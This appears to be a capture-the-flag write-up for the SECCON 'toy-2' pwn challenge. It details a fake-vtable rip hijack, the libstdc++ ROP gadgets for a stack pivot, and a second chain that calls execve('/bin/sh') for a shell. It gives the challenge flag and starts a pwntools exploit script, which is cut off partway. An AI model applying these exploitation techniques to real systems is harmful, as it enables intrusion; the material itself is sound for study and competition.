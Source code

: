 ## ROP

By looking at the execution context in gdb right after we get rip control again at the end of the 2nd stage by writing `0x4444434342424141` into our fake vtable, we can see that `rdi` and `rbx` point to the beginning of the `VM` object, and `rax` points to wherever our fake vtable was. So we can control the content of memory around all of `rax`, `rdi`, `rbx`. Therefore, we will use these ROP gadgets from libstdc++:

first ROP chain:

```
1: 0x00000000000f0ab7 : mov rsi, rbx ; call qword ptr [rax + 0x28]
2: 0x00000000000ccc7a : push rdi ; std ; jmp qword ptr [rsi + 0xf]
3: 0x00000000000e7800 : pop rsp ; mov dl, 0xff ; jmp qword ptr [rsi + 0x2e]
4: 0x00000000000e0a4c : add rsp, 0x30 ; pop rbx ; pop r12 ; pop rbp ; ret
```

Gadget 1's address should be written in the fake vtable's entry for `VM::dump_registers` (so it is the thing that gets immediately executed after we hijack rip). Gadget 2's address should be written at `fake_vtable+0x28`. Gadget 1 will initialize `rsi` from `rbx` so that it also points to the beginning of the `VM` object. Therefore, in gadget 2 & 3 we can control the content of memory after `rsi`. This way we can chain gadget 2 & 3 & 4. Gadget 2 & 3 will mov `rdi` into `rsp` and 4 will increment `rsp` a bit to get clear of the addresses of gadget 3 & 4 already written near there and then start executing the 2nd classic ROP chain that we write starting from there.

second ROP chain's gadgets:

```
# 5: 0x00000000000e8080 : pop rax ; ret
# 6: 0x00000000000bafc3 : xor edx, edx ; ret
# 7: 0x00000000000ae8ee : pop rsi ; pop rbp ; ret
# 8: 0x00000000000ab305 : pop rdi ; pop rbp ; ret
# 9: 0x000000000018c53d : syscall
```

After we do stack pivoting with the first ROP chain, this 2nd ROP chain is just a classic one to load the necessary arguments and perform an `execve("/bin/sh", 0, 0)` syscall and give us a shell!

And finally the flag: `SECCON{Im4g1n3_pWn1n6_1n51d3_a_3um_CM0S}`

## Final script

```python
from pwn import *

context.update(os="linux", arch="amd64")
# elf = context.binary = ELF("int3er"); NODBG=True
elf = context.binary = ELF("toy2"); NODBG=True
# elf = context.binary = ELF("dbg"); NODBG=False

if args.REMOTE:
	p = remote("toy-2.seccon.games", 5000)
else:
	p = elf.process()
	if args.GDB:
		gdb.attach(p)
		pause()

def asm_toy(src):

	ops_list = ["jmp", "adc", "xor", "sbc", "ror", "tat", "or", "ill", "and",
			"ldc", "bcc", "bne", "ldi", "stt", "lda", "sta"]

	lines = src.splitlines()
	code = [0x77] * 0x1000
	written = [False] * 0x1000
	ptr = 0
```